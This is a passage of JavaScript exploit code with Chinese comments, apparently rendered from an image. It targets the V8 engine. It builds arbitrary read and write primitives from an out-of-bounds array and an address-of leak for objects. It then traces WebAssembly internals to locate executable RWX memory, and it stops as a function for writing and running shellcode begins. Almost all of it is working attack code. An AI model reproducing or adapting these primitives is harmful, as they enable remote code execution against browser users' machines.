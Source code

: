 ```javascript
	uint64_baseptr_offset = 18;
	// 用来保存这三个值
	uint64_length = f2i(oob_array[uint64_length_offset]);
	uint64_externalptr_ptr = f2i(oob_array[uint64_externalptr_offset]);
	uint64_baseptr_ptr = f2i(oob_array[uint64_baseptr_offset]);
	compress_head_high32_addr = uint64_externalptr_ptr & 0xffffffff00000000n;
	console.log("	uint64_length_offset: " + hex(uint64_length));
	console.log("	uint64_externalptr_offset: " + hex(uint64_externalptr_ptr));
	console.log("	uint64_baseptr_offset: " + hex(uint64_baseptr_ptr));
	console.log("	compress_head_high32_addr: " + hex(compress_head_high32_addr));
}

// 任意地址写
function arw_write(addr, sc)
{
    oob_array[uint64_length_offset] = i2f(BigInt(sc.length));
    oob_array[uint64_baseptr_offset] = i2f(0n);
	oob_array[uint64_externalptr_offset] = i2f(addr);
    for(let i = 0; i < sc.length; i+=1) {
		uint64_arw[i] = sc[i];
    }
}
// 针对于压缩指针的任意地址读
function compress_arw_read(addr)
{
	oob_array[uint64_baseptr_offset] = i2f(addr-0x1n);
	oob_array[uint64_externalptr_offset] = i2f(compress_head_high32_addr);
	let ret = uint64_arw[0];
	return ret;
}
// 地址泄露
obj_leader_offset = 0x16;
function addr_of(obj) {
	obj_leaker.b = obj;
	let half = f2half(oob_array[obj_leader_offset]);	// half[0]为低32位，half[1]为高32位
	// 标记在低32字节，对象在高32字节
	if (half[0] == 0xc00c) {
		return BigInt(half[1]);
	}
}
// 获取RWX内存地址
function get_wasm_rwx() {
	console.log("[+] run shellcode......");
	wasm_module = new WebAssembly.Module(wasm_code);
	wasm_instance = new WebAssembly.Instance(wasm_module, {});
	wasm_function = wasm_instance.exports.main;
	wasm_function_addr = addr_of(wasm_function);

	wasm_shared_info = compress_arw_read(BigInt(wasm_function_addr)+0xcn) & (0xffffffffn);
	wasm_data = compress_arw_read(BigInt(wasm_shared_info)+0x4n) &(0xffffffffn);
	wasm_instance = compress_arw_read(BigInt(wasm_data)+0x8n) &(0xffffffffn);
	wasm_rwx = compress_arw_read(BigInt(wasm_instance)+0x68n);
	console.log("	wasm_shared_info :" + hex(wasm_shared_info));
	console.log("	wasm_data : 0x" + hex(wasm_data));
	console.log("	wasm_instance : 0x" + hex(wasm_instance));
	console.log("	wasm_rwx : 0x" + hex(wasm_rwx));
}
// 将shellcode写入并执行
function run_shellcode() {
```